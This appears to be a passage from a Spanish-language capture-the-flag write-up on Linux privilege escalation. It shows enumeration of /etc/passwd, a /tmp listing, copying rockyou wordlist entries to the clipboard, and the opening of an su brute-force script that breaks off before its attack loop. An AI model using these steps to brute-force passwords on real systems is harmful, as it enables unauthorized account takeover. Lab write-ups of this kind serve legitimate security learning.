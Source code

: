 
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
punky:x:1001:1001:,,,:/home/punky:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Listando archivos del directorio **tmp** tenemos lo siguiente:
```bash
-rw-rw-r--  1 root punky  335 May 11 06:21 elevacion.log
-rw-r--r--  1 root root   115 May 11 06:08 punky_log.txt
-rw-rw-r--  1 root punky  656 May 11 06:18 punky_output.log
-rw-r--r--  1 root root   168 May 11 06:07 task_manager.log
```

Revisando no encontramos nada relevante, Como no tenemos como pasarnos herramientas la forma en que lo aremos es media copiar y pegar para poder realizar un ataque de fuerza bruta
```bash
alias="xclip -sel clip"
cat /usr/share/wordlists/rockyou.txt | head -n 1000 | xcp
```

Ahora copiamos el contenido del archivo SU-Force que es para realizar fuerza bruta:
```bash
cat /usr/bin/Sudo_BruteForce/Linux-Su-Force.sh | xcp
```

```bash
#!/bin/bash

# Función que se ejecutará en caso de que el usuario no proporcione 2 argumentos.
mostrar_ayuda() {
    echo -e "\e[1;33mUso: $0 USUARIO DICCIONARIO"
    echo -e "\e[1;31mSe deben especificar tanto el nombre de usuario como el archivo de diccionario.\e[0m"
    exit 1
}

# Para imprimir un sencillo banner en alguna parte del script.
imprimir_banner() {
    echo -e "\e[1;34m"  # Cambiar el texto a color azul brillante
    echo "******************************"
    echo "*     BruteForce SU         *"
    echo "******************************"
    echo -e "\e[0m"  # Restablecer los colores a los valores predeterminados
}

# Llamamos a esta función desde el trap finalizar SIGINT (En caso de que el usuario presione control + c para salir)
finalizar() {
    echo -e "\e[1;31m\nFinalizando el script\e[0m"
    exit
}

trap finalizar SIGINT

usuario=$1
diccionario=$2

```